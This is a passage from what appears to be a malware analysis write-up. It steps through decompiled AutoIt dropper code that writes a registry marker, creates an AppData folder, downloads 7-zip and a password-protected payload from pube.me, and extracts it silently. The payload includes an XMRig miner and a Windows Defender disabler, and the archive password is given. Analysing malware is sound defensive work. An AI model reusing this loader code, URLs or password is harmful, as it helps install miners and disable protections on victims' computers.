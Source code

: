 <br> Then it sent to the server and wait for the status. If the status is not 200 (Successful), it print the error and exit.
<br> If status is 200, the server will sent the `7-zip` extractor `7za.exe` and the virus archive `files.7z` download URL.
<br> I have run this and got the `7-zip` link in the form of `http://pube.me/app/7za.exe?id=somerandomnumberhere` and `files.7z` is `http://pube.me/app/files.7z?id=somerandomnumberhere` with `somerandomnumber` is a 4-digit number, but it doesn't matter.
#### h) 6th function: write to registry
```autoit
Func main6($sevenzipurl, $virusurl) ; Write Installed key
	; Alright, the virus write to the key unzip to check if it has already installed or not
	;RegWrite("HKCU\Software\Unzip", "Installed", "REG_SX[}q/q:OO=ZLb5o4g}m:Yes")
	main7($sevenzipurl, $virusurl)
EndFunc
```
<br> It now write to the registry to show that the virus has activated.
#### i) 7th function: prepare the virus directory
```autoit
Func main7($sevenzipurl, $virusurl) ; Create directory in appdata
	DirCreate($virusdir) ; Create the directory in AppData
	main8($sevenzipurl, $virusurl)
EndFunc
```
<br> It create a folder `C:\User\YOURUSERNAME\AppData\Roaming\YOURUSERNAME\`. If you install Windows to something isn't `C:`, find it in that drive!
#### k) 8th function: download the 7-zip extractor and the virus
```autoit
Func main8($sevenzipurl, $virusurl) ; Download 7-zip and virus
	If NOT FileExists($virusdir & "\7za.exe") Then ; Check if 7-zip available in that directory - to extract the virus
		InetGet($sevenzipurl, $virusdir & "\7za.exe", 1, 0) ; Download 7-zip, force reload mode (force redownload even if exist), download then continue (running in foreground)
	EndIf
	InetGet($virusurl, $virusdir & "\files.7z", 1,0) ; Download virus in the form of 7z archive and set a password so antiviruses cannot detect
	main9()
EndFunc
```
<br> It check if `7za.exe` available in that directory or not, if not then download it from the provided `$sevenzipurl`. After that, download the virus with the provided URL at `$virusurl`
#### l) 9th function: Extract the virus
```autoit
Func main9() ; Extract the virus
	RunWait($virusdir & "\" & "7za.exe e files.7z -aoa -pKEQZmgbrmDnTpa2b4DHVMX", $virusdir, @SW_HIDE) ; Extract the virus, the protected password is KEQZmgbrmDnTpa2b4DHVMX
	main10() ; This is when the malware get executed, so if you want to fetch the file only, please comment this line!!!
EndFunc
```
<br> It extracts the archive downloaded (`files.7z`) by using 7-zip console app. The password of the archive is `KEQZmgbrmDnTpa2b4DHVMX` - as you can see in the command line
<br> VirusTotal: [here](https://www.virustotal.com/gui/file/d6fccd97f041fb796963bf0b8566379eb1c53cfdd1409e6d39266e3deecf7321/detection). It won't be detected since the archive is protected by password.
<br> After extractions, it has the following files in the directory:
|File|Use|
|----|----|
|`background.js`|The background worker of the Chrome extension to load the JavaScript code from the server|
|`config.json`|The json config for Xmrig miner - in this case the `update-x64.exe`|
|`defender.exe`|Windows Defender disabler|